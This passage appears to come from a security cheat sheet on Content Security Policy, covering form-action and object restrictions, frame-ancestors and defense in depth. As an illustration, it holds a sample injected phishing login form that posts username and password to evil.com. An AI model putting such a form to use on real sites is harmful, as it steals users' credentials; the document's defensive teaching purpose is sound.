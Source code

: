 #### 4. Restricting Form submissions

By restricting where HTML forms on your website can submit their data, injecting phishing forms won't work either.

```html
<form method="POST" action="https://evil.com/collect">
<h3>Session expired! Please login again.</h3>
<label>Username</label>
<input type="text" name="username"/>

<label>Password</label>
<input type="password" name="pass"/>

<input type="Submit" value="Login"/>
</form>
```

#### 5. Restricting Objects

And by restricting the HTML [object](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/object) tag, it also won't be possible for an attacker to inject malicious flash/Java/other legacy executables on the page.

### Defense against framing attacks

Attacks like clickjacking and some variants of browser side-channel attacks (xs-leaks) require a malicious website to load the target website in a frame.

Historically the `X-Frame-Options` header has been used for this, but it has been obsoleted by the `frame-ancestors` CSP directive.

### Defense in Depth

A strong CSP provides an effective **second layer** of protection against various types of vulnerabilities, especially XSS. Although CSP doesn't prevent web applications from *containing* vulnerabilities, it can make those vulnerabilities significantly more difficult for an attacker to exploit.

Even on a fully static website, which does not accept any user input, a CSP can be used to enforce the use of [Subresource Integrity (SRI)](https://developer.mozilla.org/en-US/docs/Web/Security/Subresource_Integrity). This can help prevent malicious code from being loaded on the website if one of the third-party sites hosting JavaScript files (such as analytics scripts) is compromised.

With all that being said, CSP **should not** be relied upon as the only defensive mechanism against XSS. You must still follow good development practices such as the ones described in [Cross-Site Scripting Prevention Cheat Sheet](Cross_Site_Scripting_Prevention_Cheat_Sheet.md), and then deploy CSP on top of that as a bonus security layer.

## Policy Delivery

You can deliver a Content Security Policy to your website in three ways.

### 1. Content-Security-Policy Header

